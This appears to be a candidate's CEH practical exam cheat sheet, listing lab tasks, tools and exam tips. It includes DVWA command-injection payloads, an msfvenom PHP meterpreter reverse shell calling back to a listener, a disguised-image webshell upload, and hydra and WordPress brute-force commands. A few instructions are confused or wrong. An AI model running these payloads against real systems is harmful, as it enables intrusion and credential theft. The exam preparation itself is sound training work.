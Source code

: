 # CEHv11-CHEAT_CODE
# CEH_CHEAT_SHEET

1.Sql injection using sqlmap: u need to perform sql injection attack using sqlmap and need to extract password of specific user.

2. You need to check which hosts have rdp enabled. For this u need to perform the port scan on 3389 and then os discovery on open port host and u need to get os of that rdp enabled host.

3. U need to check the mysql service running on which host. Same question 2 technique you need to perform.

3. U need to extract username and password of ftp ( hydra tool u need to use and need to use wordlist placed in desktop wordlist folder)

4. U need to get the password.txt file using veracrypt (disk encryption)

5. U need to get the username and password using wireshark.

6. U need to check bit 3 is true or not using wireshark

7. U need to check the traffic from which port to which port is moving using wireshark

8. U need to decrypt the 3des encryption using cryptool.

9. U need to extract the pin using openstego

10. U need to perform steganalysis on the txt file using snow tool

11. U need to perform brute force on the website using burpsuite ( using intruder)

12. U need to crack hash file using john ( the hash file is located in the responder tool logs file)

13.u need to find the flag file from the ftp. ( for this task bro please use the credentials u cracked in previous challenge)

14. Perform remote os command
 injection (dvwa web) and need to get the content from pin file

15. Perform file upload (dvwa web)

16. U need to compare the hashes using md5 and provide results which file is tampered.

17. Need to crack hash file ( john the ripper)

18. U need to find trojan and need to provide the port of the trojan
19. U need to perform the parameter tamperingo


For 8. The key value will be 11.

U need to perform the cryptanalysis and u have to use the cryptool. Open the cryptool on top, click on encryption / decryption and then click on asymmetric and select tripe des ecb and set 11 11 11 in all. But first please open that file in the tool they ask us to perform the decryption decryption

For this remote command injection attack u need to perform the things a

Snow.exe -C -p “given_password” file_name

| dir c:\ with this command u can see the pin.txt file. But to read the content from this try this command | dir c:\ "pin.txt" or this command ! Take pin.txt

## DVWA 

### WINDOWS - COMMAND INJECTION


Easy - Command Injection 

Execute 127.0.0.1 & & net user
Execute 127.0.0.1 & & net user & & ver command
Execute 127.0.0.1 & & net user & & getmac

Medium - Command Injection 

127.0.0.1&net user
127.0.0.1&net user&sc query&systeminfo
127.0.0.1&;&ipconfig

High - Command Injection

127.0.0.1|net user

### FILE UPLOAD - WINDOWS

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.104 lport=3333 -f raw

type GIF98 before PHP code and save as shell.jpeg.

Copy the uploaded path 

Click on command injectio and type below command
|copy C:\xampp\htdocs\DVWA\hackable\uploads\shell.jpeg
 C:\xampp\htdocs\DVWA\hackable\uploads\aa.php

Msfconsole 
Use multi/handler
Set payload php/meterpreter/reverse_tcp
Set lhost
Set lport
Run



# My experience - 2022 APRIL:

Above material was gathered for preparation, most of the  content is useless for me but its depend on Scenarios maybe you'll find it useful, So its upto you,beside of that you should make your own notes for ILABS videos on youtube.The Questions are interlinked so go with the flow and keep up with smooth pace. During the exam I have searched many things and even went through the commands manual for finding particular flags and tools to find the answer, so don’t worry if anything is missing in your custom cheatsheet as this is an open book exam. 

#### Tough questions I had in the exam.

An FTP site is hosted on a machine in a network. Obtain the file “flag.txt” by cracking the credentials of the FTP server and determine the content in this file.

_Ftp server was bruteforce easily but the file would not be retrieved as error stated that “Access Denied”._ 

An important file has been hidden in the Server 2019 machine in the directory mentioned below. You are an ethical hacker working with a company. You have been assigned the task to retrieve the file “SECRET.txt” using a backdoor that was installed in the server. Enter the secret number hidden in the file. Path: C:\Users\Administrator\Documents\Findme

_No clue about this, like where to find the server in the network._

# Note: You can download and install tools If you'll does'nt find required tool on given machine, you can find tools from folder CEH-Tool on given windows machine as well.

## Tools I used .
```
Veracrypt 
Cryptool
Snow
Bctextencoder
Md5 & sha1 checksum utility
Wpscan
Nmap
Metasploit
Hydra
Wireshark
Winscp
OWASP ZAP
RDP
```

## Commands:
```
Net  user
Snow.exe -C -p “given_password” file_name
—---------------------

wpscan --url http://10.10.10.12:8080/CEG --enumerate u
msfconsole
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Passwords.txt
set RHOSTs 10.10.10.12
set RPORT 8080
set TARGETURI http://10.10.10.12:8080/CEH/
set USERNAME admin
run

—------------------------
Nmap -Pn -p 21 target > ftp
grep -B 5 open ftp

—--------------------------
Nmap -Pn -p 3389 target > rdp
grep -B 5 open rdp
—-------------------------
Nmap -Pn -p 3306 target > mysql
grep -B 5 open mysql

Hydra -l james -P given_wordlist ftp://target
```

## DVWA - You can change the severity from impossible to easy.

# ITS EASY - IA you will pass the EXAM.
